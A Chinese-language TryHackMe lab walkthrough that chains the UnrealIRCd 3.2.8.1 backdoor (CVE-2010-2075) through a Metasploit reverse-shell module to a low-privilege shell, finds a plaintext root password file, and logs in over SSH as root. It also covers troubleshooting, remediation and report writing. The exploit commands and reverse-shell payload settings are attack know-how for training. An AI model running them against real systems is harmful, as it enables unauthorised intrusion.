





# TryHackMe — Guided Pentest: Infrastructure

> 一条从**供应链后门**打到 **root** 的完整链路：匿名 RCE 拿低权 shell → 读明文凭据 → SSH 直取 root。

| 项目          | 内容                                       |
| ----------- | ---------------------------------------- |
| **房间**      | Guided Pentest: Infrastructure           |
| **难度 / 类型** | Easy / Walkthrough                       |
| **耗时**      | 约 60 分钟（官方估计）                            |
| **作者**      | 宋子彧                                      |
| **日期**      | 2026-11-18                               |
| **环境**      | Kali 2026.2 (VMware) + TryHackMe OpenVPN |
| **结果**      | Room completed 100%（Task 1–6 全绿）         |



---

## 0. 作战地图

```
信息收集(22/6667) → 发现 UnrealIRCd 后门 → msf 打点得 webmaster shell
   → 翻文件找到明文 root 密码 → ssh 提权 → 拿 flag
```

这条链的价值在于：**两个独立的低级错误叠成了一条完整的利用链**——一个是被植入后门的软体，一个是永久写入磁盘的明文凭据。

---

## 1. 环境准备

```bash
# 起隧道
sudo openvpn --config /opt/thm/thm.ovpn --daemon
ip -4 addr show tun0          # 确认拿到 tun0 地址
ping -c 2 <TARGET>            # 确认能到靶机
```

> 记录：`tun0 = 192.168.178.73/18`，`TARGET = 10.x.x.x`

---

## 2. 信息收集

```bash
nmap -sC -sV -p- --min-rate 2000 -oA infra_all <TARGET>
```

关键发现：

| 端口                 | 服务                           | 说明                             |
| ------------------ | ---------------------------- | ------------------------------ |
| 22/tcp             | ssh (OpenSSH 9.6p1 Ubuntu)   | 允许密码登录，后续提权入口                  |
| 6667/tcp           | irc (**UnrealIRCd 3.2.8.1**) | 本房间的破局点；`irc-info` 直接吐出服务名与版本号 |
| 2563/6143/6367/tcp | filtered                     | 全端口扫描时出现，未开放，无利用价值             |

> 说明：本房间**没有 80 端口**——开打前先扫一遍，别照抄网上的端口表。

参数说明：

- `-sV`：探测开放端口上运行的服务与版本
- `-sC`：跑 Nmap 默认脚本集，提取横幅、认证方式等更多细节
- `-oA infra_all`：同时输出 `.nmap` / `.gnmap` / `.xml` 三种格式，便于事后复查

> 想快点看到结果可以先 `-p22,6667` 打这两刀，确认服务后再 `-p-` 扫全量（全量约 90 秒）。



---

## 3. 漏洞：UnrealIRCd 后门（CVE-2010-2075）

**原理**：2010 年 UnrealIRCd 官方下载服务器被入侵，3.2.8.1 的源码被植入后门：任何携带 `AB;` 前缀的 IRC 报文都会被当作 shell 命令执行。属于**供应链投毒**，不是常规漏洞——这也意味着**版本号本身就是红旗**。

**利用**（Metasploit）：

```bash
msfconsole
search unrealircd                    # 搜模块，记下 UnrealIRCd 3.2.8.1 那一行前面的编号
use <编号>                            # 用编号选中，不要写死 use 0
show options                         # RHOSTS / RPORT / LHOST / LPORT 四项必填
set RHOSTS <TARGET>
set RPORT 6667
set LHOST <tun0 地址>
set LPORT 443
set payload cmd/unix/reverse         # 该模块的回连 payload
exploit
```

回连成功：

```
Command shell session 1 opened (<LHOST>:443 -> <TARGET>:xxxxx)
```

```bash
whoami      # webmaster
id          # uid=1001(webmaster) gid=1001(webmaster) groups=1001(webmaster) —— 低权限
```

> ⚠️ 拿到的是**哑巴 shell**（无 tty、无作业控制），`su` / `sudo` 这类需要交互终端的命令跑不了。本房间用不上，但要知道这个限制。



---

## 4. 提权：明文密码躺在文件里

```bash
find / -name "password*" 2>/dev/null
```

结果里出现了 `/etc/password.txt` —— 注意，这**不是** `/etc/passwd`，两个完全不同的东西。

> `2>/dev/null` 把“权限不足”这类报错吞掉，只留结果，输出干净很多。

```bash
cat /etc/password.txt
# root:<REDACTED>
```

> 截图里用的是 `cat /etc/password.txt | sed 's/:.*/:<REDACTED>/'`——**密码在源头就被 sed 打掉**，不靠事后涂黑，避免漏涂。

拿到明文密码后，**另开一个终端**直接 SSH：

```bash
ssh root@<TARGET>
# Password: <REDACTED>
whoami   # root
id       # uid=0(root) gid=0(root) groups=0(root)
hostname # pentest-target
```

**为什么能成**：四个配置一起放行 ——

1. root 密码以明文写进文件
2. 该文件全局可读（任何拿到 shell 的账号都能读）
3. `PermitRootLogin yes`
4. `PasswordAuthentication yes`（允许密码认证）





> 两张图里密码与 flag 都是**命令内 sed 打码**的结果，不是 P 图——`sed` 的替换链就写在同一行命令里，可复盘。

---

## 5. 取证

```bash
ls -l /home/webmaster/flag.txt /root/flag.txt
# -rw-r--r-- 1 root root 29 Mar 13  2026 /home/webmaster/flag.txt
# -rw-r--r-- 1 root root 20 Mar 13  2026 /root/flag.txt

cat /home/webmaster/flag.txt   # THM{*** masked ***}
cat /root/flag.txt             # THM{*** masked ***}

hostname; uname -a
```

> 📌 写 writeup 的规矩：**flag 一律打码、不贴填空答案原文**。别人要看的是方法，不是答案。

---

## 6. 排错记录（真实踩坑，最有价值的一节）

打 root 密码时连续失败，终端只回：

```
Permission denied, please try again.
```

第三次之后直接变成：

```
Connection closed by 10.x.x.x port 22
```

三段排查：

1. **怀疑密码错** → 用 `od -c` 逐字节核对密码字符串（这里只留前 8 个字符示意：`P D L r C V l 1 ...`）。问题出在 `l`（小写 L）与 `1`、`O` 与 `0` —— 手抄密码时这几个字符肉眼分辨不清。
2. **怀疑服务端拒绝** → 查 `/etc/ssh/sshd_config`：`PermitRootLogin yes`、`PasswordAuthentication yes` 都正常，`MaxAuthTries` 为默认 6。排除服务端策略。
3. **确认是手误** → 改用脚本免交互登录（`SSH_ASKPASS` + `setsid -w ssh`），一次成功。

**教训**：

> 长随机密码不要手抄，用复制粘贴；注意别把空格或占位符一起复制进去。Linux 输入密码时默认不回显，敲错了看不出来——这是最容易误判的地方。
>
> 排错时先分离两类可能：**用户输入错误** 与 **服务配置错误**。前者靠 `od -c` / 复制粘贴消除，后者才需要翻配置和日志。

---

## 7. 修复建议（按优先级）

| 优先级    | 措施                                                 | 原因             |
| ------ | -------------------------------------------------- | -------------- |
| **最高** | 删除 `/etc/password.txt` 并轮换 root 密码（假定已泄露）          | 明文凭据 = 一次性提权   |
| **高**  | 下线或升级 UnrealIRCd 到官方纯净版本                           | 后门 RCE，无需任何凭据  |
| **高**  | `PermitRootLogin no`，root 走 `sudo` + 密钥认证，禁用密码认证   | 消除“拿到密码即 root” |
| **中**  | 最小权限：`webmaster` 账号不应能读系统级凭据文件；定期 `ls -l` 审计敏感文件权限 | 阻断横向           |
| **中**  | 出站 IRC 与异常反向连接做监控（Suricata / Zeek）                 | 后门利用必然产生反连     |

---

## 8. 三段式报告（本房间 Task 6 的可迁移经验）

同一个漏洞，三种读者，三种详略：

**① Executive Summary（给 manager）**

> 我们在生产服务器上发现一个可被远程利用的 IRC 服务后门，攻击者无需任何凭据即可获得系统 shell；同时 root 密码以明文形式存于可读文件，导致单点突破即可完全接管主机。建议 24 小时内下线该服务并轮换全部凭据。

**② Technical Summary（给 engineering manager）**

> 攻击路径：`6667 UnrealIRCd 3.2.8.1` 后门 RCE → `webmaster` shell → 读取 `/etc/password.txt` → SSH root。影响：CVSS 自评约 9.8（严重，未用官方计算器核算）。根因是供应链投毒 + 凭据管理缺位。

**③ 漏洞详情（给工程师）**

> 即本文第 3、4 节的命令与输出，附 PoC、时间线、日志证据。

---

## 9. 参考

- CVE-2010-2075 — UnrealIRCd 3.2.8.1 后门（2010 供应链事件）
- TryHackMe — [Guided Pentest: Infrastructure](https://tryhackme.com/room/guidedpentestinfrastructure)

---

## 附录：环境与工具

| 项目   | 值                                            |
| ---- | -------------------------------------------- |
| 攻击机  | Kali 2026.2（VMware，2 核 / 2 GB）               |
| 靶机   | Ubuntu 24.04.1 LTS，hostname `pentest-target` |
| 隧道   | OpenVPN，`tun0` 网段 `192.168.178.0/18`         |
| 主要工具 | nmap 7.99、Metasploit Framework、ssh           |
| 截图   | 2026-11-19 重建靶机后实拍；密码与 flag 由 `sed` 在命令层打码   |

<!--
维护提示：
1. 所有截图放 docs/img/，文件名见正文“待补截图”提示
2. 截图前先把 IP / flag / 密码遮掉，或用 tools/mask.ps1 批量打码
3. 发布前自查：明文密码 0 处、真实 IP 0 处、flag 原文 0 处
-->
